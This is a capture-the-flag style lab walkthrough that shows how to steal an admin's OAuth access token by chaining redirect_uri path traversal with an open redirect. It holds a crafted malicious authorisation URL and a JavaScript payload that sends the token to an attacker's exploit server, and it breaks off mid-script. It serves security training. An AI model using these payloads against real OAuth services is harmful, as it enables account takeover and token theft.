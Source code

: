 
## 4. Stealing OAuth access tokens via an open redirect
This lab uses an OAuth service to allow users to log in with their social media account. Flawed validation by the OAuth service makes it possible for an attacker to leak access tokens to arbitrary pages on the client application.

To solve the lab, identify an open redirect on the blog website and use this to steal an access token for the admin user's account. Use the access token to obtain the admin's API key and submit the solution using the button provided in the lab banner.

***Note:***
You cannot access the admin's API key by simply logging in to their account on the client application. The admin user will open anything you send from the exploit server and they always have an active session with the OAuth service.

**Analysis**:
1. While proxying traffic through Burp, click "My account" and complete the OAuth login process. Afterwards, you will be redirected back to the blog website.
2. Study the resulting requests and responses. Notice that the blog website makes an API call to the userinfo endpoint at `/me` and then uses the data it fetches to log the user in. Send the `GET /me` request to Burp Repeater.
3. Log out of your account and log back in again. From the proxy history, find the most recent `GET /auth?client_id=[...]` request and send it to Repeater. In Repeater, experiment with the `GET /auth?client_id=[...]` request. Observe that you cannot supply an external domain as `redirect_uri` because it's being validated against a whitelist. However, you can append additional characters to the default value without encountering an error, including the `/../` path traversal sequence.
4. Log out of your account on the blog website and turn on proxy interception in Burp. In the browser, log in again and go to the intercepted `GET /auth?client_id=[...]` request in Burp Proxy.
5. Confirm that the `redirect_uri` parameter is in fact vulnerable to directory traversal by changing it to:
    `https://YOUR-LAB-ID.web-security-academy.net/oauth-callback/../post?postId=1`
    Forward any remaining requests and observe that you are eventually redirected to the first blog post. In the browser, notice that your access token is included in the URL as a fragment.
6. With the help of Burp, audit the other pages on the blog website. Identify the "Next post" option at the bottom of each blog post, which works by redirecting users to the path specified in a query parameter. Send the corresponding `GET /post/next?path=[...]` request to Repeater.
7. In Repeater, experiment with the `path` parameter. Notice that this is an open redirect. You can even supply an absolute URL to elicit a redirect to a completely different domain, for example, your exploit server.
8. Craft a malicious URL that combines these vulnerabilities. You need a URL that will initiate an OAuth flow with the `redirect_uri` pointing to the open redirect, which subsequently forwards the victim to your exploit server:
    `https://oauth-YOUR-OAUTH-SERVER-ID.oauth-server.net/auth?client_id=YOUR-LAB-CLIENT-ID&redirect_uri=https://YOUR-LAB-ID.web-security-academy.net/oauth-callback/../post/next?path=https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/exploit&response_type=token&nonce=399721827&scope=openid%20profile%20email`
9. Test that this URL works correctly by visiting it in the browser. You should be redirected to the exploit server's "Hello, world!" page, along with the access token in a URL fragment.
10. On the exploit server, create a suitable script at `/exploit` that will extract the fragment and output it somewhere. For example, the following script will leak it via the access log by redirecting users to the exploit server for a second time, with the access token as a query parameter instead:
    `<script> window.location = '/?'+document.location.hash.substr(1) </script>`
11. To test that everything is working correctly, store this exploit and visit your malicious URL again in the browser. Then, go to the exploit server access log. There should be a request for `GET /?access_token=[...]`.
12. You now need to create an exploit that first forces the victim to visit your malicious URL and then executes the script you just tested to steal their access token. For example:
    ```javascript
    <script>
     if (!document.location.hash)
